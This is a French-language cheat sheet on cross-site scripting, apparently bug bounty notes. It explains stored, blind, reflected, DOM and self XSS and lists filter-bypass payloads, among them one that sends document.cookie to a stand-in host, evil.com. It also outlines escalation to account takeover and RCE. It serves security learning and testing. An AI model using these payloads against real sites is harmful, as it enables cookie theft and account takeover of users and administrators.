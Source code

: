# XSS (Cross Site Scripting)
## Qu'est ce qu'une XSS

C'est le fait de pouvoir injecter un script que ça soit en JS, HTML, Flash, VBScript ou tout autre langage susceptible d'être exécuté par le navigateur. 

Nous injectons notre code, si l'ordinateur comprends ce que l'on a donné un input et qu'il l'exécute, alors la XSS est confirmée. 

## Types de XSS

### Stored (Stockée)

Les **XSS** de type stockées, sont des injections de scripts qui sont enregistrés en serveur, et appelées de manière non ou mal sécurisée. 

Il s'agit de la XSS la plus critique car elle touche un plus grand nombre d'utilisateur à contrario des autres types de XSS. 

### Blind XSS

Les XSS de type blind sont des XSS de type Stockée, mais qui est exécutée sur un autre endroit du serveur.

Par exemple, on envoie un mail à l'admin via un formulaire de contact, l'admin ouvre sur l'interface d'administration et se prends la XSS.

Elle est souvent utilisée pour de l'**Account Takeover** et de l'**Exfiltration de données** d'administrateurs, mais elle en reste la plus compliquée pour être détectée car aucun élément visuel nous permet de voir que l'injection à été fonctionnelle.

### Reflected XSS

La Reflected envoie le code malicieux au serveur, qui exécute le script et retourne aussitôt le résultat sans pour autant la stocker. 

Exemple, si nous faisons une recherche dans un site pour un produit, et que dans l'url nous avons le résultat de notre recherche, alors nous pouvons tenter une XSS:

>*"\https://mon-url/products/search?q=<script>alert(1)</script>"

Si l'injection fonctionne, alors on l'envoie à un utilisateur et il déclenchera l'injection.

### DOM XSS

La Dom XSS est à peu près similaire à la Reflected, à la différence que l'injection n'appelle pas le serveur, mais est executée directement sur la copie locale du client. 

La Dom XSS est due au rendu de l'input utilisateur sur le client de manière non sécurisée.

Cependant attention, car **TOUT** ne se passe pas forcément sur un paramètre d'url.

### Self XSS

La self XSS est une XSS qui nécessite l'interaction utilisateur et donc, agit comme un "phishing", et donc est globalement exclue des programmes de BB.

## Bypass de filtre

Pour bypass les filtres:
- essayer de fermer l'input :   '\<img src="**"/><script>alert(1)</script>\</img>**'
- essayer d'utiliser directement des commandes js: '\<img src="**\javascript:alert(1)"**>\</img>'
- essayer de jouer avec les fonctions d'appel js : '\<img src="**123" onerror="alert(1)"**>'
- encoder avec le datafilter : "\data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
- Capitaliser : "<scRiPT>location='\http://evil.com/c='+document.cookie;</scRiPT>"
- Si quote et double quote filtrées, utiliser String.fromCharCode pour forger sa string
- Contourner la logique des filtres : "<scrip<script>t>alert(1)</scrip</script>t>"
### Escalade de la vulnérabilité

Avec les XSS, on peut évoluer sa criticité en passant d'une xss simple à un Account Takeover en volant par exemple les creds d'un admin.

On peut aussi effectuer une IDOR en volant l'id d'un compte et tenter d'accéder à des données qui ne nous appartiennent pas.

Ou bien même également RCE si on exécute les scripts avec les droits d'administrateur.

Et voir aussi compromettre l'intégrité totale du site en fonction des droits des utilisateurs.

---

*Todo: Correctifs associés à cette Vulnérabilité*
